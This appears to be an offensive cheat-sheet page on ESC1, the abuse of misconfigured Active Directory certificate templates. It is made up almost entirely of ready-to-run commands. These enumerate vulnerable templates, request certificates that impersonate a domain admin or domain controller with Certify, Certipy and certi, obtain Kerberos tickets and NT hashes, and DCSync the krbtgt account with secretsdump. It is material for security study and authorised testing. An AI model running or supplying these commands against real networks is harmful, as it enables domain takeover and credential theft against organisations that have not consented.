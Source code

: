 ```yaml
---
description: Modifiable SAN + Smart Card Logon or Client Authentication or PKINIT Client Authentication EKUs
---
```


# ESC1

- [https://elkement.wordpress.com/2020/06/21/impersonating-a-windows-enterprise-admin-with-a-certificate-kerberos-pkinit-from-linux/](https://elkement.wordpress.com/2020/06/21/impersonating-a-windows-enterprise-admin-with-a-certificate-kerberos-pkinit-from-linux/)

The vulnerable certificate template allows requesters to specify a SAN in the CSR as well as allows Smart Card Logon (`1.3.6.1.4.1.311.20.2.2`) or Client Authentication (`1.3.6.1.5.5.7.3.2`) or PKINIT Client Authentication (`1.3.6.1.5.2.3.4`) EKUs.




## Enumerate

Find template with this misconfiguration with native Active Directory module:

```powershell
PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
```




## Exploit



### Certify

Request a certificate specifying the `/altname` as a domain admin:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:VulnTemplate /altname:DomAdmin
```

Convert `.pem` to a `.pfx` certificate:

```
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Request a TGT with the `.pfx` certificate:

```
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:DC01.megacorp.local /user:DomAdmin /certificate:cert.pfx /password:Passw0rdPfx! /ptt
```



### Certipy

Enroll a certificate with privileged subject in SAN:

```
$ certipy req megacorp.local/snovvcrash:'Passw0rd!'@CA01.megacorp.local -ca CorpCA -template VulnTemplate -alt 'administrator@magacorp.local'
```

Request TGT providing certificate and get corresponding NT hash automatically:

```
$ certipy auth -pfx administrator.pfx -domain megacorp.local -username administrator -dc-ip 192.168.1.11
```



### certi

- [https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250](https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250)

Enroll a certificate with privileged subject in SAN:

```
$ certi.py req megacorp.local/snovvcrash@CA01.megacorp.local CorpCA -k -n --dc-ip 192.168.1.11 --template VulnTemplate --alt-name 'DC01$'
```

Request TGT providing certificate:

```
$ base64 -w0 DC01.pfx > DC01.pfx.b64
$ python3 gettgtpkinit.py megacorp.local/'DC01$' -pfx-base64 `cat DC01.pfx.b64` -pfx-pass admin -dc-ip 192.168.1.11 DC01.ccache
```

Request NT hash providing TGT or DCSync:

```
$ KRB5CCNAME=DC01.ccache python3 getnthash.py megacorp.local/'DC01$' -dc-ip 192.168.1.11 -key <AS_REP_ENC_KEY>
$ KRB5CCNAME=DC01.ccache secretsdump.py DC02.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```
